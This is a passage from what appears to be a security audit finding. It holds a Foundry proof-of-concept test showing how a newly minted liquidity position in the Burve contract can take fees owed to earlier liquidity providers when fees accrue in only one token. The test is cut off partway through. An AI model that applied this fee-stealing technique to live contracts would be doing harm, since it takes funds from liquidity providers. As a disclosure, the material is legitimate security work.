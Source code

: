 ### PoC

Include the following test in `Burve.t.sol` file:

```solidity
    function test_anyoneCanStealTheFeeShareOfOldLPs() public forkOnly {
        uint128 mintLiq = 100 ether;

        // Mint initially to alice
        deal(address(token0), address(sender), type(uint256).max);
        deal(address(token1), address(sender), type(uint256).max);
        vm.startPrank(sender);
        token0.approve(address(burve), type(uint256).max);
        token1.approve(address(burve), type(uint256).max);
        burve.testMint(address(alice), mintLiq, 0, type(uint128).max);
        vm.stopPrank();

        // get the kodiak island
        IKodiakIsland island = burve.island();

        // rebalance the kodiak island first
        island.rebalance();


        console.log("---- Mint with Burn With fee ---");
        // store the current state
        uint snapshot = vm.snapshotState();

        // mint some tokens to burve to represent fee but in one token only
        deal(address(token0), address(burve), 1000 ether);

        // get the charlie LP shares balance
        uint charlieBurveBalanceBefore = burve.balanceOf(charlie);

        // get the token balances before for checking the tokens transferred
        uint balanceBeforeToken0 = token0.balanceOf(sender);
        uint balanceBeforeToken1 = token1.balanceOf(sender);

        // since the fee earned was only in one token, it will not be accrued
        // charlie mints to steal the fee
        vm.startPrank(sender);
        token0.approve(address(burve), type(uint256).max);
        token1.approve(address(burve), type(uint256).max);
        burve.testMint(address(charlie), mintLiq, 0, type(uint128).max);
        vm.stopPrank();

        // balance after mint
        uint balanceAfterToken0 = token0.balanceOf(sender);
        uint balanceAfterToken1 = token1.balanceOf(sender);

        // get the burve balance after
        uint charlieBurveBalanceAfter = burve.balanceOf(charlie);

        // new tokens minted
        console.log("token0 spent for mint: ", balanceBeforeToken0 - balanceAfterToken0);
        console.log("token1 spent for mint: ", balanceBeforeToken1 - balanceAfterToken1);
        console.log("new tokens minted to alice for same amount of liqiudity: ", charlieBurveBalanceAfter - charlieBurveBalanceBefore);


        // more fees accumulated in other token
        deal(address(token1), address(burve), 1000 ether);

        // get the tokens balance before
```